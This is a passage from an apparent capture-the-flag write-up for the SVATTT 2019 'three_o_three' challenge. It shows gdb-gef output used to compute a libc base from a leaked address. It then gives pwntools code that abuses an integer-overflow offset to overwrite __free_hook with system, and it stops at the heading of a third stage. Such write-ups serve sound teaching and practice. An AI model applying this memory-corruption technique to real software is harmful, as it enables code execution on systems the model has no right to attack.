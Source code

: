 And we attach with gdb to calculate the libc base from the leak address:

![libc-leak.png](images/libc-leak.png)

So the leak address is `0x7f5b0b3e4010`. We will type `vmmap` (gdb-gef) to list all the address and then calculate the libc base address:

```gdb
gef➤  vmmap
...
0x00563f15fc6000 0x00563f15fe7000 0x00000000000000 rw- [heap]
0x007f5b0adf0000 0x007f5b0afd7000 0x00000000000000 r-x /home/nguyenhuutri/CTF/svattt/svattt2019/three_o_three/libc-2.27.so
0x007f5b0afd7000 0x007f5b0b1d7000 0x000000001e7000 --- /home/nguyenhuutri/CTF/svattt/svattt2019/three_o_three/libc-2.27.so
...

gef➤  p/x 0x7f5b0b3e4010 - 0x007f5b0adf0000
$2 = 0x5f4010
```

Nice! Let's get the libc base address now:

```python
libc.address = libc_leak - 0x5f4010
log.info('Libc base: ' + hex(libc.address))
```

### Stage 2: Change `__free_hook`

Now, with the libc base address, we can calculate the offset to make `p + offset*8` equal to address of `__free_hook`. The problem here is that, the leak address is much higher than the libc base address so how can we make `p + offset*8` point to `__free_hook`?

The answer is simple, that is we will make an integer overflow. Let's imagine that with the address leak we get above and with a large offset, `p + offset*8` might give us something like `0x10000000000000000` (9 bytes in total). But the most significant byte `0x1` is not fit so that byte will be removed, leave `0x0000000000000000` (or `0x0`) and we made an integer overflow!

So with the offset, we will input a negative number although it read unsigned long number. So the code we will use to assign `system` to `__free_hook` is:

```python
offset = int(((libc.sym['__free_hook']) - libc_leak) / 8)
value = libc.sym['system']
p.sendlineafter(b'offset:', f'{offset}'.encode())
p.sendlineafter(b'value:', f'{value}'.encode())
```

### Stage 3: Change `fp -> _IO_save_base` of stdin
